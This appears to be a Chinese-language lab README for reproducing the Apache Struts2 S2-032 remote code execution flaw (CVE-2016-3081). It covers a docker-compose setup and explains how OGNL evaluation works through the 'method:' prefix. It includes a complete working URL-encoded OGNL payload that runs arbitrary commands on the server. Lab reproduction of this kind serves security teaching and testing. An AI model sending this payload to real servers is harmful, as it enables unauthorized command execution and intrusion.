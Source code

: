 # S2-032 远程代码执行漏洞（CVE-2016-3081）

影响版本: Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)

漏洞详情:

 - https://cwiki.apache.org/confluence/display/WW/S2-032
 - https://www.cnblogs.com/mrchang/p/6501428.html

## 漏洞环境

执行如下命令启动struts2 2.3.28：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到默认页面。

## 漏洞复现

Struts2在开启了动态方法调用（Dynamic Method Invocation）的情况下，可以使用`method:<name>`的方式来调用名字是`<name>`的方法，而这个方法名将会进行OGNL表达式计算，导致远程命令执行漏洞。

直接请求如下URL，即可执行`id`命令：

```
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```

![](1.png)

